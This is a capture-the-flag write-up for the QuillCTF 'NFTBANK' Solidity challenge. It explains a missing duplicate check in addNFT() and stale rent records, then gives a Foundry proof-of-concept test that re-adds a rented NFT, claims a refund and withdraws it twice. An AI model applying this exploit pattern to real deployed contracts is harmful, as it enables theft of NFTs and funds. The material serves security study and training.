 ```yaml
---
title: QuillCTF - NFTBANK
description: 2023 | Hard | Solidity Security
tags:
    - smart contract
    - nft
    - data validation
---
```


## Objective of CTF

> You rent an NFT. After 10 days have passed, if you should hack the contract, and finally have the NFT, the contract should not show, that you have debt.

[QuillCTF Challenges - NFTBANK](https://quillctf.super.site/challenges/nftbank)

## Vulnerability Description

- There is no check whether an NFT is already added in the addNFT() function
- The NFT related record is not deleted after withdrawing the NFT, including nftData and rentData

## Attack Steps

- Approve the NFTBank for spending token and update the NFT config data through addNFT() function
- Get back the NFT. Since previous rentData is not deleted from rentNFTs, call refund() to get the startRentFee back
- Get the NFT back again :)

## Proof of Concept

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import "forge-std/Test.sol";
import {NFTBank} from "../src/NFTBank.sol";
import {ERC721} from "openzeppelin-contracts/contracts/token/ERC721/ERC721.sol";
import {Ownable} from "openzeppelin-contracts/contracts/access/Ownable.sol";

contract CryptoKitties is ERC721("CryptoKitties", "MEOW"), Ownable {
    function mint(address to, uint id) external onlyOwner {
        _safeMint(to, id);
    }
}

contract NFTBankHack is Test {
    NFTBank bank;
    CryptoKitties meow;
    address nftOwner = makeAddr("nftOwner");
    address attacker = makeAddr("attacker");

    function setUp() public {
        vm.startPrank(nftOwner);
        bank = new NFTBank();
        meow = new CryptoKitties();
        for (uint i; i < 10; i++) {
            meow.mint(nftOwner, i);
            meow.approve(address(bank), i);
            bank.addNFT(address(meow), i, 2 gwei, 500 gwei);
        }
        vm.stopPrank();
    }

    function test() public {
        vm.deal(attacker, 1 ether);
        vm.startPrank(attacker);
        bank.rent{value: 500 gwei}(address(meow), 1);
        vm.warp(block.timestamp + 86400 * 10);
        
        // solution
        meow.setApprovalForAll(address(bank), true);
        bank.addNFT(address(meow), 1, 0, 500 gwei);
        bank.getBackNft(address(meow), 1, payable(attacker));
        bank.refund(address(meow), 1);
        bank.getBackNft(address(meow), 1, payable(attacker));
        // end solution
        
        vm.stopPrank();
        assertEq(attacker.balance, 1 ether);
        assertEq(meow.ownerOf(1), attacker);
    }
}
```